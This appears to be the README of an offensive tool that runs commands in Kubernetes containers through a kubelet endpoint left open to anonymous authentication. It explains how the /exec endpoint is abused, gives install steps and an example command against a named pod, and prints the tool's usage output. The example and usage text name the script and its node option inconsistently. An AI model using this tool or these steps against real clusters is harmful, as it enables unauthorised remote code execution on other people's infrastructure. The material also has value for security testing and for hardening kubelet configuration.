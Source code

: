 # Kubelet Anonymous RCE

>Executes commands on a kubelet endpoint that allows anonymous authentication (default)

## Why?

By default `kubelet` allows anonymous authentication:

```
--anonymous-auth
    Enables anonymous requests to the Kubelet server. Requests that are not
    rejected by another authentication method are treated as anonymous
    requests. Anonymous requests have a username of system:anonymous, and a
    group name of system:unauthenticated. (default true)
```

The `kubelet` API is not documented but the [code](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) is straightforward.

There is a `/exec` endpoint which allows running a command in a target container and returns a link to fetch the output. That link is a stream that should be read with a WebSocket.

This script handles it all easily.

## Install

```
$ git clone https://github.com/serain/kubelet-anon-exec.git
$ cd kubelet-anon-exec
$ pip3 install -r requirements.txt
```

## Example

This command runs `ls /tmp` in the `tiller` container and returns the output:

```
$ python3 kubelet-anon-rce.py           \
          --node 10.1.2.3               \
          --namespace kube-system       \
          --pod tiller-797d1b1234-gb6qt \
          --container tiller            \
          --exec "ls /tmp"
```

## Usage

```
$ python kubelet-anon-exec.py --help
usage: kubelet-anon-exec.py [-h] [--port PORT] -t TARGET -n NAMESPACE -p POD
                            -c CONTAINER -x EXEC

Run commands against a Kubelet endpoint.

optional arguments:
  -h, --help            show this help message and exit
  --port PORT           endpoint port, default: 10250
  -t TARGET, --target TARGET
                        Kubernetes node IP address
  -n NAMESPACE, --namespace NAMESPACE
                        namespace, ie: 'default'
  -p POD, --pod POD     pod name, ie: 'dh-nginx-8484b69674-z9tzl'
  -c CONTAINER, --container CONTAINER
                        container name, ie:'nginx'
  -x EXEC, --exec EXEC  command to execute, ie: 'ls /tmp'
```
